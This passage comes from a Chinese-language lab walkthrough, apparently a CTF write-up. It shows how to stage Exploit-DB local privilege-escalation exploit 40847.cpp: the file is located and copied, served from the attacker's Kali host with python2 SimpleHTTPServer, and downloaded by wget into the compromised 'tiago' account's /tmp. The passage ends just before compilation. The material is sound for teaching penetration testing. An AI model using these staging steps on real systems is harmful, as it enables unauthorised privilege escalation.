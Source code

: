 **开启临时服务器**

- 将40847.cpp文件复制到当前目录下
- 并且利用 python2 -m SimpleHTTPServer 1234 
- 开启临时的建议服务器

**注意事项**：

- 因此使用Python2时要特别注明，
- 如果没安装Python3则不用特殊注明，
- Python3无法利用该方法开启简易服务器，
  - 另外，开启服务器后默认的访问目录
    - 为当前开启服务器的目录，
    - 即我在 **~/桌面** 这个目录下，
    - 则在浏览器中访问的话则默认能看 **~/桌面** 目录下的文件。

## 3.2 对40847文件的操作

查找40847.cpp文件

```
find / -name 40847.cpp
```

拷贝40847.cpp文件

把文件复制到要定义的服务目录下

```
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp  /home/xxb1/
```

![image-20220228134343291](https://gitee.com/xxb667/img/raw/master/img/image-20220228134343291.png)

使用下面命令时，要在

```
/home/xxb1/        目录下使用
```

```
python2 -m SimpleHTTPServer 1234 
```

![image-20220228134318225](https://gitee.com/xxb667/img/raw/master/img/image-20220228134318225.png)

## 3.3 tiago用户下载40847.cpp文件

在刚才ssh登录的tiago用户的/tmp目录下下载40847.cpp文件：

```
wget http://192.168.81.131:1234/40847.cpp
#ip地址改为自己的kali的IP
```

![image-20220228134454847](https://gitee.com/xxb667/img/raw/master/img/image-20220228134454847.png)

对40847.cpp文件进行编译：
